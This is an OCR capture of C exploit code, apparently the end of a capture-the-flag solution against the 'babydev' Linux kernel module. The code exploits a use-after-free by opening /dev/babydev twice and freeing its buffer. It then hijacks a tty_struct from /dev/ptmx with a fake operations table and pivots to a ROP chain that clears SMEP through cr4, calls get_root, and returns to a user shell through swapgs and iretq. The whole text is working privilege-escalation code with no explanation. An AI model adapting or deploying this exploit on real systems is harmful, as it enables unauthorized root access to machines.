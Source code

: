 ```C
    save_status();

	int i = 0;
    size_t rop[32] = {0};
    rop[i++] = 0xffffffff810d238d;		// pop rdi; ret;
    rop[i++] = 0x6f0;
    rop[i++] = 0xffffffff81004d80;		// mov cr4, rdi; pop rbp; ret;
    rop[i++] = 0;
    rop[i++] = (size_t)get_root;
    rop[i++] = 0xffffffff81063694;		// swapgs; pop rbp; ret;
    rop[i++] = 0;
    rop[i++] = 0xffffffff814e35ef;		// iretq; ret;
    rop[i++] = (size_t)get_shell;
    rop[i++] = user_cs;                /* saved CS */
    rop[i++] = user_rflags;            /* saved EFLAGS */
    rop[i++] = user_sp;
    rop[i++] = user_ss;

	for(int i = 0; i < 30; i++)
	{
		fake_tty_operations[i] = 0xFFFFFFFF8181BFC5; 
	}
    fake_tty_operations[0] = 0xffffffff810635f5;  //pop rax; pop rbp; ret;
    fake_tty_operations[1] = (size_t)rop;
    fake_tty_operations[3] = 0xFFFFFFFF8181BFC5;  // mov rsp,rax ; dec ebx ; ret

    int fd1 = open("/dev/babydev", O_RDWR);
    int fd2 = open("/dev/babydev", O_RDWR);
    ioctl(fd1, 0x10001, 0x2e0);
    close(fd1);

    int fd_tty = open("/dev/ptmx", O_RDWR|O_NOCTTY);
    size_t fake_tty_struct[4] = {0};
    read(fd2, fake_tty_struct, 32);
    fake_tty_struct[3] = (size_t)fake_tty_operations;
    write(fd2,fake_tty_struct, 32);

    char buf[0x8] = {0};
    write(fd_tty, buf, 8);

    return 0;
}
```
